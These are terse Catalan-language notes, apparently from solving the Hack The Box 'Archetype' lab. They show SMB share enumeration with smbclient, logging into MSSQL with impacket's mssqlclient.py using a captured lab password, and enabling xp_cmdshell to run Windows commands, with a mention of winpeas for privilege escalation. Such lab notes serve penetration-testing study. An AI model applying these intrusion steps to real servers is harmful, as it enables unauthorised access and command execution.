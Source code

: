 ```
smbclient -N -L @IP
```
Veure desde Linux el Samba Server.
Això llista els disc/impresores que poden compartir amb l'usuari.
[-L]: Per especificar host
[-N]: NOSE

```
smbclient \\\\@IP\\folder_name
```

https://tldp.org/HOWTO/SMB-HOWTO-8.html

get file_name
[//]: La ruta es desde on has executat la terminal de Kali

```
~/HTB/impacket/examples
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.90.161 -windows-auth
```

un cop en el server, s'ha de permettre `enable_xp_cmdshell` perque despres farem comandos de windows al servidor.

???perque collons ers lo de responder





# FINDS
ARCHETYPE\sql_svc = M3g4c0rp123

mssqlclient.py (Estavlir conexio autentificada amb el servidor SQL)
xp_cmdshell (Executar Consola de Comandos de Windows en Microsoft SQL)
winpeas (Privilegie Escalation)








